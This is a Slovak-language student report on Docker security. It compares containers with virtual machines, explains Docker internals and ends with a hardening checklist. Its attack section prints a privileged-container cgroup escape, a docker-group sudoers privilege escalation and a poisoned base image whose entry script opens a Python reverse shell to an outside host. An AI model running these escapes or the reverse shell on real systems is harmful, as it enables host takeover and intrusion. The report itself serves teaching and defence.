

\newpage
# Úvod

V mojom projekte porovnám virtualizované stroje a kontajnerové riešenia. V projekte sa
budem zameriavať hlavne na bezpečnosť kontajnerov. Bližšie sa pozriem na technológiu
docker. Preštudujem implementáciu tejto technológie, jej výhody a nevýhody. Pozriem sa na to
ako môže potenciálne zlepšiť bezpečnosť aplikácii. Ďalej sa budem zaoberať v ktorých
oblastiach je táto technológia využívaná a aké dopady môže mať bezpečnostná chyba na tieto
aplikácie. Opíšem potencionálny útok cez škodlivé images, ktoré neboli preverené alebo majú
pochybného autora. Pozriem sa na problém stavania nových images, využívania existujúcich
images, ktoré môžu byť neskôr prestavané a pridaný škodlivý kód. Opíšem využitie viac
vrstvového stavania images na okresanie nástrojov, ktoré by mohol využiť útočník na prieskum
alebo preniknutie do ďalších kontajnerov. V ďalšej časti sa budem zaoberať detekciou
kontajnerového prostredia a úniku z kontajnerov. Pozriem sa na kritické CVE a pokúsim sa ich
zopakovať. Výsledkom mojej práce bude preskúmanie
kontajnerovej technológie docker a poukázanie na možné bezpečnostné nedostatky. Budem
prezentovať základné útoky a vytvorím check list pre vytváranie aplikácie v docker prostredí.

\newpage
# Rozdiel medzi virtuálnymi strojmi a kontajnermi
## Čo sú to virtuálne stroje

Virtualny stroj (VM) je emuláciou počítačového systému. V jednoduchosti, dovoluje nám to spúčtať viacero oddelených počitačov na jednom hardvérovom stroji. Operačne systemy (OS) a ich aplikácie zdieľaju hardwarové prostriedky jedného hostujúceho serveru (host). Každý virtuálny stroj vyžaduje svoj vlastný operačný systém a hardware je virtualizovaný. Hypervisor, alebo aj monitor virtuálnych strojov, je software alebo firmware, ktorý vytvára a spúšťa virtuálne stroje. Nachádza sa medzi hardwarom a virtuálnymi strojmi a je potrebný na zabezpečenie virtualizácie na serveri. 

S príchodom lacných a dostupných virtualizačných nástrojov a cloudových služieb, IT oddelenia všetkých veľkostí začali využívať virtuálne stroje ako spôsob na zníženie nákladov a zvýšenie efektívnosti.

Virtuálne stroje však využívajú veľké množstov systémových prostriedkov. Každý virtuálny stroj potrebuje na svoju prevádzku celú kópiu operačného systému, ale aj virtuálnu kópiu celého hardwaru, ktorý opračný systém potrebuje na svôj beh. Všetky tieto požiadavky na sa výrazne prejavia na potre väčšej veľkosti pamäťe RAM a väčšieho množstva CPU cyklov, ktoré sa musia vykonať. Ekonomicky je to však stále výhodnejšie ako mať samostatný počítač na každú aplikáciu. Avšak pre niektoré druhy aplikácií to môže byť príliš zbytočné, čo viedlo k vývoju kontajnerových riešení.

Keďže každý virtuálny stroj obsahuje aj vlastný kernel, dochádza ku komplikáci plánovania procesov. Každý virtuálny stroj si sám vo svojom kerneli plánuje iba svoje procesy a neberie tak do úvahy iné aplikácie alebo virtuálne stroje s ktorými môže zdielať hardwarové prostriedky.

Veľkou nevýhodou virtuálnych strojov je ich dlhý čas spustenia. Spustenie virtuálneho stroja môže trvať  minúty a keď pripočítame ešte čas spustenia aplikácie vo virtuálnom stroji, tak aplikácia je schopná obsluhovať zákazníkov až po niekoľkých minútach ako bola vytvorená požiadavka na jej spustenie. Toto spôsobuje problémy pri aplikáciách, ktoré potrebujú rýchlo škálovať svoje aplikácie. Napríklad sa môže jednať o spravodajské weby alebo aplikácie, ktoré dokážu naraz získať veľa používateľov. 

{ height=30% }

## Čo sú to kontajnery

V kontajnerovom prístupe, namiesto virtualizácice počítačového hardweru ako pri virtuálnych strojoch, virtualizujeme iba operačný systém. 

Kontajnery využívajú fyzický hardware serveru a sú spustené nad operačný systemom hostiteľa, typicky Linux alebo Windows. Každý kontajner zdieľa kernel hostiteľského operačného systému a zvyčajne aj binárne subory a knižnice. Zdieľané komponenty sú však len read-only. Zdieľanie zdrojov hostiteľa ako sú knižnice výrazne znižuje potrebu duplikovať kód operačného systému. Vďaka tejto výhode sú kontajnery výrazne malé, hovoríme v prieme o súboroch o veľkosti 5-200 MB. Bežný súbor potrebný pre spustenie virtuálneho stroja sa veľkosťou pohybuje v 2-4 GB. Vďaka tejto výhode vo veľkosti sú kontajnery jednoducho prenositeľné medzi zariadeniami na ktorých bežia.

Kontajnery nepotrebujú spúšťať vlastný kernel, pretže využívajú kernel hostiteľského operačného systému, dokážu sa spustiť veľmi rýchlo v priebehu pár milisekúnd až sekúnd. Na rozdiel od virtuálnych strojov môžu byť procesy všetkých kontajnero plánované jedným kernelom. Plánovací algoritmus tak može byť lepšie optimalizovaný.

{ height=30% }

### Linux Containers (LXC)

Originálne linuxová kontajnerová technológia je Linux Containers, tiež známe aj ako LXC[1].
LXC je virtualizačná metóda na leveli operačného systému, pre spúštanie viacerých izolovaných Linux systémov na jednom hostovi.

### Docker

Docker začal ako projekt na vytváranie single-application LXC kontajnerov. Predstavil niekoľko zmien oproti LXC, ktoré zabezpečili väčšiu a portabilitu a flexibilitu docker kontajnerov. Následne sa docker premenil na vlastný jednotný ekosystém. V skratke, Docker je Linuxový nástroj, ktorý dokáže efektívne vytvárať, doručovať a spúšťať kontajnery. 

Docker je napísaný v GO a využíva niekoľko vlastností Linuxového kernelu aby dosiahol svoje ciele. Docker využíva technológiu zvanú namespaces, aby poskytol izolované kontajnerové prostredie. Pri spustení docker kontajneru docker vytvorí niekoľko namespaces pre daný kontajner. Namespaces poskytujú vrstvu izolácie. Každý aspekt kontajneru beží v oddelenom namespace a jeho prístup je limitovaný na daný namespace.[2]

Docker Engine využíva nasledujúce namespaces v Linuxe:

- pid namespace: Izolácia procesov (PID: Process ID).
- net namespace: Správa sieťových zariadení (NET: Networking).
- ipc namespace: Správa prístupu k medziprocesovej komunikácii (IPC: InterProcess Communication).
- mnt namespace: Správa súborového systému a pripojených zariadení (MNT: Mount).
- uts namespace: Izolácia kernelu a verzií (UTS: Unix Timesharing System).

Docker na toto využíva systémové volanie unshar[3], ktoré zabezpečí izoláciu podľa namespaces. Docker volá unshare napríklad s argumentom CLONE_NEWPID. Toto zabezpečí izoláciu PID namspace, takže volajúci proces dostane nový PID namespace pre jeho deti, ktorý nie je zdieľaný s akýmkoľvek už existujúcim procesom. Proces ktorý zavolal unshare však nie je presunutý do tohto nového namespacu. Prvé dieťa volajúceho procesu bude proces 1 a bude sa spravat ako init(1) pre tento namespace. Tieto novo vytvorené namespaces sú podmnožinou host namespacu, z toho vyplýva že používateľ v host namespace vidí všetky procesy v kontajneroch ale používateľ v kontajneri nevidí procesy mimo svojho namespacu (kontajneru).

# Kontajnerová technológia Docker
## Architektúra
Docker využíva klient-server architektúru[4]. Docker klient komunikuje s s Docker daemonom, pomocou unix socketu alebo pomocou API cez TCP. Docker daemon zabezpečuje vytváranie, spúšťanie a distribúciu kontajnerov. Docker klient a daemon sú zvyčajne nainštalovaný naraz na jednom systéme, ale nie je to podmienkou fungovania. Docker klient sa môže pripojiť aj na vzdialeného klienta pomocou REST API.

{ height=22% }

## Image

Docker image je read-only. Docker image možme v jednoduchosti prirovnať k binárnemu súboru, ktorý bol skompilovaný zo zdrojového kódu. Docker image je predloha pre spustenie kontajneru. Obsahuje všetky informácie o operačnom systéme kontajneru, nainštalované knižnice, obsahuje zdrojový kód aplikácie, konfiguračné súbory, premenné prostredia. Image môže byť vytvorený a uložený lokálne alebo môže byť stiahnutý z registry. Image môže stavať nad existujúcim imagom, napríklad pre python aplikáciu môžme použiť už existujúci python image a iba pridať náš kód a nastavenia.

{ height=22% }

## Dockerfile

Docker dokáže vytvárať image automaticky podľa inštrukcií, ktoré sú uložené v textovom súbore Dockerfile. Dockerfile slúži na zaznamenaie všetkých, krokov, ktoré by programátor musel vykonať pokiaľ by chcel nainštalovať a nasadiť svoju aplikáciu do produkčného prostredia. Docker dokáže tieto kroky rýchlo, efektívne a vždy presne zopakovať. Každý príkaz vytvorí takzvanú vrstvu, ktorá sa uloží. Pri vytvárani nového imagu docker skontroluje či sa vrstva zmenil a ak a nezmenil tak použije už existujúcu vrstvu a vymení len vrstvy, ktoré sa zmenili. Toto dokáže výrazne zrýchliť vytváranie imagov a ich nasadenie. 

## Registry

Registry sa využíva na ukladanie a zdielanie imagov. Docker bez akéhokoľvek nastavovanie používa ako základné registry docker hub. Docker registry môže hostovať ktokoľvek a ukladať v ňom lubovoľné images. Na pridanie registry stačí jednoduchý prikaz docker login, prihlasovacie údaje sú však uložené v docker configuračnom súbore ```.docker/config.json```. Prihlasovacie údaje sú však uložene v base64 forme, čo može byť potenciálne riziko. 

## Kontajnery

Kontajnery môžeme prirovnať k bežiacim program. Kontajnery môžeme vytárať, spúšťať, zastaviť, presúvať alebo zmazať. Kontajner môže byť pripojený k viacerím sieťam, môže mať pripojené úložisko alebo unix sockety. Kontajnery sú v základnom nastavení dostatočne bezpečné a dobre izolované od host serveru. Táto izolácia može byť ovplyvnená podľa ďalšej konfigurácie kontajneru. Kontajner je definovaný imagom a konfiguračnými vlastnosťami pri štarte kontajneru, akékoľvek ďalšie zmeny kontajneru sú po zastavení kontajneru zmazané pokiaľ nie sú uložené v trvalom úložisku. Kontajnery by mali byť bez stavové.

## Volumes
Volumes slúžia na ukladanie dát, ktoré boli vytvorené počas behu kontajneru aj po vypnutí kontajneru.  
Docker má dva typy úložiska, bind mounts a volumes. Volumes majú niekoľko výhod oproti bind mounts:

 - Volumes sú jednoduchšie na zálohovanie a migrovanie, pretože sa všetky nachádzajú v jednom priečinku
 - Volumes sa dajú spravoať pomocout docker cli
 - Volumes fungujú s Windows a aj Linux kontajnermi
 - Volumes môžu byť bezpečnejšie zieľané medzi viacerými kontajnermi
 - Bind mounts sú závisle na súborovej štruktúre host systému

 { height=15% }

# Bezpečnosť Docker kontajnerov a ukážky útokov

## Detekcia a únik z kontajneru
### Detekcia

Útočník môže ma detekciu či sa nachádza v kontajneri, využiť viacero techník a podľa toho ďalej koordinovať svôj útok.

```bash
#!/bin/bash
if [ -f /.dockerenv ]; then
    echo "In docker container";
else
    echo "Maybe not in container";
fi
```

```bash
#!/bin/bash
if grep docker /proc/1/cgroup -qa; then
   echo "In docker container".
fi
```

### Únik z kontajneru

Útočník môže na únik z kontajneru využiť viacero možností, záleží od konfigurácie kontajneru. Pokiaľ kontajner beží v privileged móde, útočník má takmer vyhraté.

Nasledujúca ukážke spustí docker kontajner v privileged móde a v kontajneri spustíme sériu príkaz ktorá vypíše bežiace procesy na hostiteľovi.[5]
```bash
docker run --rm -it --privileged ubuntu bash

d=$(dirname $(ls -x /s*/fs/c*/*/r* |head -n1))
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

Tento únik je však možné jednoducho prekaziť, použitím iného používateľa ako root v kontajneri a tak sťažiť útočníkovi jeho prienik.

Pokiaľ sa jedná verziu docker staršiu ako 18.09.2 útočník môže pomocou chyby v runc prepísať hosťovskú runc knižnicu. Pokiaľ môže útočník kontrolovať image z ktorého bude vytvorený kontajner alebo mal útočník prístup existujúcemu kontajneru, ku ktorému bude vytvorené pripojenie pomocou docker exec. Tento problém vznikol, kvôli nesprávnemu spravovanie file descriptorov pre /proc/self/exe.

Tomuto problému bolo priradené [CVE-2019-5736 [6]](https://www.cvedetails.com/cve/CVE-2019-5736/) a je možné využiť túto zraniteľnosť pomocou [tohto exploitu[7]](https://www.exploit-db.com/exploits/46359), ktorý otvorí reverse shell útočníkovi. Ukážku útoku je možné si pozrieť v tomto [videu](https://youtu.be/gjvsbcAlQl8?t=27). Útočník však musí byť opatrný a vedieť čo robí, pretože tento útok je deštruktívny a može jeho prítomnosť veľmi rýchlo prezradiť.

## Privilege escalation pomocou Dockeru

Pokiaľ sa útočníkovi podarilo dostať z kontajneru a nezískal root používateľa, ale používateľa, ktorý sa nachádza v skupine docker môže využiť docker na zvýšenie svojich práv. 

```bash

docker run --rm -it -v "/:/tmp" alpine /bin/sh

echo "john ALL=(ALL) NOPASSWD: ALL" >> /tmp/etc/sudoers
```

Pomocou dockeru si spustíme nový kontajner. Celý file systém hosta pripojíme do priečinku /tmp v kontajneri. Využívame alpine linux image, pretože je veľmi malý (5MB) a teda nepotrebujeme stiahnúť veľký image z registry. Vstúpime do kontajneru kde máme root práva a do **/tmp/etc/sudoers** priáme pre nášho používateľa sudo práva bez hesla. Náš dočasný kontajner možeme opustiť a na hostovi máme root práva.

## Reverse shell cez kontrolovaný image

Útočník sa môže dostať do kontajneru aj pomocou imagu, ktorý kontroluje. 

V tejto ukážke má útočník kontrolu nad docker imagom "alice", v tomto prípade tento image obsahuje iba rozprávku **ALICE'S ADVENTURES IN WONDERLAND** a jeho jedinou úlohou je vypísať túto rozprávku na stdout pri spustení.

**alice Dockerfile**
```bash
FROM python:3

WORKDIR /tmp

COPY . .

RUN chmod +x /tmp/entry.sh

CMD [ "sh", "/tmp/entry.sh" ]
```

**entry.sh**
```bash
#!/bin/bash

cat /tmp/alice.txt
```

Tento image vytvoríme pomocou príkazu, samozrejme následne by sme ho pushli a publikovali v nejakom registry, kde by bol dostupný pre všettkých používateľov. 

```bash
docker build --rm -f "evilimage/aliceimage/Dockerfile" -t alice:latest "evilimage/aliceimage"
```

Pomocout tohto imagu môžme vytvoriť, kontajner, ktorý nám vypíše túto rozprávku.
```bash
docker run --rm -it alice:latest
```

Pokiaľ by však nejaký developer využil tento image ako základ pre jeho projekt a neskontroloval si jeho obsah alebo nepoužil presnú verziu. Útočník by mohol vytvoriť novú verziu alice imagu a pridať svoj reverse shell do jeho projektu bez toho aby o tom vedel.

**Dockerfile noveho projektu**
```bash
FROM alice:latest

WORKDIR /tmp

COPY . .
```

Vývojár by si potom vybuildoval vlastný image, do ktorého by si pridal svoje veci a spúšťal tak svoju aplikáciu.
```bash
docker build --rm -f "evilimage/Dockerfile" -t projekt:latest "evilimage"
```

Teraz už len stačí aby útočník do svojho imagu s alice pridal reverse shell alebo akýkoľvek škodlivý kód, znova vytvoril alice image a zverejnil ho.

**nový zákerný entry.sh**
```bash
#!/bin/bash

cat /tmp/alice.txt
python3 -c 'import pty;
import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("vpn.marek-vigas.sk",4455));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

```bash
docker build --rm -f "evilimage/aliceimage/Dockerfile" -t alice:latest "evilimage/aliceimage"
```

Vývojár spraví úpravy na svojom programe a vytvorí si novú verziu jeho imagu, nevediac o tom že už použil novú verziu alice imagu, ktorý je nakazený a keď spustí svoj projekt, útočník získa reverse shell do jeho kontajneru. 

```bash
docker build --rm -f "evilimage/Dockerfile" -t projekt:latest "evilimage"

docker run --rm -it alice:latest
```

# Odporúčanie pri vytváraní docker aplikácií
Téma bezpečnosti docker aplikácia je veľká a dala by sa rozoberať z rôznych uhlov pohľadu ako je napríklad nasadenie cez kubernetes, udržiavanie, monitorovanie, ochrana pred DDOS útokmi. Ja som vytvoil zoznam pravidiel, ktoré ak budeme dodržiavať počas vývoja aplikácie výrazne môžme zvýšiť bezpečnosť našej docker aplikácie.

## Image s minimálnym základom

Často sa mmôže stať že začneme projekt a vytvoríme všeobecný Dockerfile, ktorý obsahuje "FROM node".
Avšak keď stavame náš image na node image, musíme si uvedomiť že samotný node image je postavený na Debian Stretch distribúcii. Ak náš projekt nevyžaduje na svôj beh nejaké špeciálne systémové nástoroje, je lepšie sa radšej vyhnuť takémuto základu. Pokial začneme preferovať minimálne image, ktoré obsahujú len najnutnejšie knižnice na beh našej aplikácie, minimalizujeme tak možné miesta na prienik do aplikácie a zároveň zmenšujeme veľkosť nášho imagu. 

## Najmenej privilegovaný používateľ

Pokiaľ Dockerfile nešpecifikuje používateľa, bude použitý používateľ root na spúšťanie aplikácie. V skutočnosti, existuje veľmi málo dôvodov, prečo by mala aplikácia v kontajneri bežať ako root. Pokiaľ však aplikácia beží pod root používateľom potencionálne útočníkovi dávame prístup aj k host systému. 

Aby sme znížili tento risk, vytvoríme nové používateľa s nižšími oprávneniami. Následne v Dockerfile pomocu USER direktívy nastavíme používateľa. Následne bude naša aplikácia bežať pod týmto používateľom.

Nami vybraný používateľ nemusí v tomto imagi existovať, preto si ho vytvoríme.
Nasledujúca ukážka znázorňuje ako si vytvoriť takéhoto používateľa v ubuntu imagi:

```bash
FROM ubuntu
RUN mkdir /app
RUN groupadd -r john && useradd -r -s /bin/false -g john john
WORKDIR /app
COPY . /app
RUN chown -R john:john /app
USER john
CMD node index.js
```

## Overovanie imagov

Dôveryhodnosť imagov je veľká výzva. Dávame veľa dôvery do imagov, ktoré sú základom naších aplikácií a nakoniec sú nasadené s našim kódom v produkcii. Preto je kritické aby sme sa naozaj uistili že image ktorý sme si stiahli je ten ktorý tam vydávateľ nahral a žiana tretia strana do neho nezasiahla. Image može byť pozmenený pri prenose alebo ako sme si ukázali vlastníkov účet môže byť prelomený a útočník nahrá novú nakazenú verziu imagu.

Docker v základe dovolí sťahovať docker image bez overovanie ich autentickosti, takto sa môžme potenciálne vystaviť možným rizikám. Je doležité zaviesť si štandard používania iba overených a podpisaných imagov pomocou príkazu:

```bash
export DOCKER_CONTENT_TRUST=1
```

Pokiaľ sa teraz pokúsime stiahnuť neoverený image, docker odmietne stiahnuť takýto image.

## Citlivé informácie v Docker imagi

Niekedy pri kompilovaní našich aplikácii v Docker imagi potrebujeme ssh klúče na prístup k privátnemu ropozitáru, z ktorého si možme stiahnuť náš kód. Alebo potrebujeme licenčné klúče na inštalácie častí programov. Aj keby sme tieto súbory vymazali po ich použití, aj tak ostanú v chache v danej vrstve imagu. Tieto súbory by jednoducho nemali nikdy byť vložené do Dockerfilu.

Pokiaľ však nie je iná možnosť, docker ponúka možnosť multi-stage builds. Pomocou tejto vlastnosti dokážeme vyžiť jeden krok imagu ako stavebný krok. V tomto kroku si stiahneme a skompilujeme všetok náš kód a do ďalšieho kroku už prenesieme len skompiovaný výsledok a stavebný krok celý zahodíme ako v nasledujúcej ukážke:

```bash
FROM ubuntu as intermediate

WORKDIR /app
COPY secret/key /tmp/
RUN scp -i /tmp/key build@acme/files .

FROM ubuntu
WORKDIR /app
COPY --from=intermediate /app .
```


## Použitie najkonkrétnejších tagov na nemeniteľnosť

Každý docker image može mať viacerov tagov, ktoré označujú rozne variante rovnakého imagu. Najčastejí tag je **latest**, ktorý reprezentuje vždy najnovšiu verziu imagu. Tagy imagov nie su nemenitelné a autor imagu može znova vydať image nový image s rovnakým tagom viac krát.

Taktiež to znamená že zakladný image pre našu aplikáciu sa môže medzi buildami našej aplikácie zmeniť. Toto može spôsobiť nestálosť našej aplikácie a neočakávane správanie.
Existuje viac spôsobov ako sa vysporiadať s takýmto problémom:

Vyberme si vždy najšpecifickejší tag, ktorý je dostupný. Pokiaľ ma image viacero tagov ako napríklad :10 a 10.0 alebo 10.0.3-alpine, je najlepšie si vybrať ten posledný. Je dobré vyhnúť sa všeobecným tagom ako je latest. Musíme mať však na pamäti že pokiaľ používame veľmi špecifický tag, môže sa stať že vydávateľ imagu ho može odstrániť. Vtedy je dobré mať vlastné registry, ktoré zrkadlí vydávateľa, alebo iba prejsť na daľší tag pokiaľ bol ten náš odstránený.

## Používnie lintera

Je dobré si zvyknúť na používanie lintera, ktorý po nás vždy skontroluje naše Dockerfiles a otestuje ich či sa neodkláňajú od best practices. Takéto lintovanie môžeme automatizovať napríklaď pomocou pre-commit hookov v gite.

# Záver 

V mojej práci som porovnal kontajnerové riešnie a virtuálne stroje. Zameral som sa na technológiu docker, ako funguje, predviedol potenciálne bezpečnostné riziká. Opísal som a úspešne predviedol niektoré útoky. Podarilo sa mi vytvoriť zoznam pravidiel a odporúčaní, ktoré keď budememe dodržiavať pri vývoji docker aplikácií, výrazne môžeme zlepšiť ich bezpečnosť. Všetky zdrojové kódy a ukážkové súbory, ktoré som využil sa nachádzajú vo verejnom [github repozitári (github.com/MarekVigas/fiit-pib-docker)](https://github.com/MarekVigas/fiit-pib-docker)

\newpage
# Referencie 

[[1] - linuxcontainers.org/lxc/introduction/, 2020-04-13](https://linuxcontainers.org/lxc/introduction/)  

[[2] - docs.docker.com/get-started/overview/#namespaces, 2020-04-15](https://docs.docker.com/get-started/overview/#namespaces)  

[[3] - man7.org/linux/man-pages/man2/unshare.2.html, 2020-04-17](http://man7.org/linux/man-pages/man2/unshare.2.html)  

[[4] - docs.docker.com/get-started/overview/#docker-architecture, 2020-04-17](https://docs.docker.com/get-started/overview/#docker-architecture)  

[[5] - blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes, 2020-04-17](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  

[[6] - cvedetails.com/cve/CVE-2019-5736, 2020-04-17](https://www.cvedetails.com/cve/CVE-2019-5736/)  

[[7] - exploit-db.com/exploits/46359, 2020-04-17](https://www.exploit-db.com/exploits/46359)  

